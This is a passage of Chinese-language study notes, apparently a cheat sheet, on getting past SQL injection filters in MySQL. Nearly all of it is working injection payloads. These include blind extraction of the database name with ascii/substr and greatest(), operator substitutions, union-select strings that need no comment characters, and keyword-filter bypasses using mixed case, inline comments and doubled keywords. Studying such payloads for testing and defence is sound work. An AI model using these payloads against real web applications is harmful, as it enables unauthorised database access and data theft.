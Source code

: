   ```mysql
  select * from users where id=1 and ascii(substr(database(),0,1))>64
  ```

  与下面这条语句等价：

  ```mysql
  select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
  ```

  使用between and：

  between a and b：返回a，b之间的数据，不包含b。

- or and xor not绕过：

  ```mysql
  and=&& or=|| xor=| not=!
  ```

- 绕过注释符号（#，--(后面跟一个空格)）过滤（不懂）

  ```mysql
  id=1' union select 1,2,3||'1
  ```

  最后的or'1闭合查询语句的最后的单引号，或者：

  ```mysql
  id=1' union select 1,2,'3
  ```

- 绕过union, select,where等

  1. 使用注释符绕过：

     常用注释符：

     ```mysql
     //,--,/**/,#,--+,-- -, ;,%00,--a
     ```

  2. 使用大小写绕过

     ```mysql
     id=-1'UnIoN/**/SeLeCT
     ```

  3. 内联注释绕过

     ```mysql
     id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
     ```

  4. 双关键字绕过（若删除掉第一个匹配的union就能绕过）

     ```mysql
     id=-1'UNIunionONSeLselectECT1,2,3–-
     ```

  5. 等价函数绕过
